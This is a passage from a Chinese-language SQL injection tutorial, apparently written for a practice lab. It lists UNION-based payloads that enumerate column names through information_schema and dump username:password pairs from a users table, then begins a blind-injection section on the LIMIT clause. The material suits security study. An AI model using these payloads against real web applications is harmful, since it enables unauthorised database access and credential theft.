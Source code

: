 ```MySQL
select column_name from information_schema.columns where table_name="表名称" --+


select 1,2,group_concat(column_name) from information_schema.columns where table_name='表名称' --+

//举例表名称：httpinfo,member,message,users,xssblind
?name=0' union select 1,group_concat(column_name) from information_schema.columns where table_name='表名称常用users' --+
```

#### 获取某列的内容（爆字段）

```MySQL
select * from * --+

# 随机应变
select 1,2,group_concat(username,":",password) from 表名 --+
select 1,2,group_concat(username,0x3A,password) from 表名 --+

id,userid,ipaddress,useragent,httpaccept,remoteport,id,username,pw,sex,phonenum,address,email,id,content,time,id,username,password,level,id,time,content,nam

//举例列名称：id,username,password,level,id,username,password
?name=0' union select 1,group_concat(username,":",password) from users --+
```



## 盲注

### 第一步 判断注入类型

与普通注入不同，盲注需要利用**延迟**来判断是否注入成功——[盲注解体思想](https://zhuanlan.zhihu.com/p/25053315?utm_source=qq&utm_medium=social&utm_oi=992463846774296576)

#### limit

limit子句用于限制查询结果返回的数量，常用于分页查询

**格式：**

```mysql
select * from tableName limit i,n
#tableName：表名 
#i：为查询结果的索引值(默认从0开始)，当i=0时可省略i
#n：为查询结果返回的数量
#i与n之间使用英文逗号","隔开

limit n 等同于 limit 0,n
```

**栗子：**

```mysql
#查询10条数据，索引从0到9，第1条记录到第10条记录
select * from t_user limit 10;
select * from t_user limit 0,10;

# 查询8条数据，索引从5到12，第6条记录到第13条记录
select * from t_user limit 5,8;
```
